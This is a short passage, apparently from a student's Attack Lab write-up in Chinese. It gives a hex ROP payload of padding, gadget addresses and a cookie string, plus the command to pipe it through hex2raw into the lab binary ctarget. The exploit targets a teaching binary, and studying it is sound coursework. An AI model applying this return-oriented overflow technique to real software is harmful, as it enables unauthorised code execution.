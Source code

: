 ```
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
e7 18 40 00 00 00 00 00 
30 00 00 00 ff 7f 00 00 
e1 18 40 00 00 00 00 00 
97 19 40 00 00 00 00 00 
27 19 40 00 00 00 00 00 
64 19 40 00 00 00 00 00 
21 19 40 00 00 00 00 00 
1a 19 40 00 00 00 00 00 
e1 18 40 00 00 00 00 00 
51 18 40 00 00 00 00 00 
37 61 37 34 32 35 35 33 
00 00 00 00 00 00 00 00
```
将上面的代码存在input.txt中，命令行输入`./hex2raw < input.txt | ./ctarget`,攻击成功.
栈的情况如下图
![](https://raw.githubusercontent.com/HJLomega/bomblab_picture/master/attack_lab5.png)



